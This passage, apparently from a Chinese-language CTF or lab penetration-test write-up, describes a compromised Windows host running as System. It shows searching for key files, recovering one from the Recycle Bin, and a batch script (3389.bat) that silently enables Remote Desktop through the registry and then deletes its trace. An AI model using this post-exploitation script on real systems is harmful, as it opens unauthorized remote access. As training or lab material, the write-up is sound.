 ![image.png](https://img.ghostliner.top/HXMzQ6.png)

发现当前用户为 `System`

![image.png](https://img.ghostliner.top/T3btSl.png)

查找 `key.txt`，只找到网站根目录的 key

```batch
for /r "c:\" %i in (key*.txt*) do echo %i
```

![image.png](https://img.ghostliner.top/uXtYy0.png)

猜测 key3 在回收站

> [!NOTE]
>
> 放入回收站的文件会被改名，且分为两个文件：
> 一个保存文件原路径，一个保存文件原内容。

查看回收站内容

![image.png](https://img.ghostliner.top/MoWeSa.png)

发现路径文件

![image.png](https://img.ghostliner.top/HAKqM8.png)

###### 获取到 key3

发现 key.txt 文件内容

![image.png](https://img.ghostliner.top/vEpiTS.png)

### 4.3. 开启远程桌面

上传 `3389.bat` 脚本并执行

```batch
@REM 3389.bat
echo Windows Registry Editor Version 5.00>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
echo "fDenyTSConnections"=dword:00000000>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
regedit /s 3389.reg
del 3389.reg
```

![image.png](https://img.ghostliner.top/qFpbei.png)
